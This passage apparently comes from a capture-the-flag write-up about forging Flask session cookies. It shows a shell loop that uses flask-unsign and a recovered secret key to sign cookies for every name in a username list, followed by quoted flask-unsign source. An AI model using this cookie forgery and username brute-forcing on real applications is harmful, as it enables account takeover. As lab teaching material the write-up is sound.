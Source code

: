 In Firefox dev tools, in the Storage tab, I’ll replace my cookie with that one:

![image-20220330063228612](https://0xdfimages.gitlab.io/img/image-20220330063228612.png)

On refreshing, it redirects to `/login`. This could mean that I messed up the cookie somehow, but it could also mean this isn’t a valid username.

#### Brute Username with Cookie

I’m going to generate a huge list of cookies with possible usernames. I’ll start a loop to generate them:

```

oxdf@hacky$ time cat /usr/share/seclists/Usernames/Names/names.txt | \
> while read user; do \
>   (flask-unsign --sign --cookie "{'logged_in': True, 'username': '$user'}" --secret 'secret123' &); \
> done > names_cookies

real    8m10.417s
user    0m14.970s
sys     0m4.190s

```

This will take a list of names and generate all the cookies I need. This is actually pretty slow, taking over eight minutes minutes to run. That’s because for each work it’s having to start up, which includes importing all of Flask.

I can dig into the `flask-unsign` source a bit and trace what’s happening when I call it with `--sign`. It ends up [here](https://github.com/Paradoxis/Flask-Unsign/blob/e934573b2bcc3cfd58769e93e6761d0a9d3f21ab/flask_unsign/session.py#L121-L142):

```

@lru_cache()
def get_serializer(secret: str, legacy: bool, salt: str) -> URLSafeTimedSerializer:
    """
    Get a (cached) serializer instance
    :param secret: Secret key
    :param salt: Salt
    :param legacy: Should the legacy timestamp generator be used?
    :return: Flask session serializer
    """
    if legacy:
        signer = LegacyTimestampSigner
    else:
        signer = TimestampSigner

    return URLSafeTimedSerializer(
        secret_key=secret,
        salt=salt,
        serializer=TaggedJSONSerializer(),
        signer=signer,
        signer_kwargs={
            'key_derivation': 'hmac',
            'digest_method': hashlib.sha1})

```
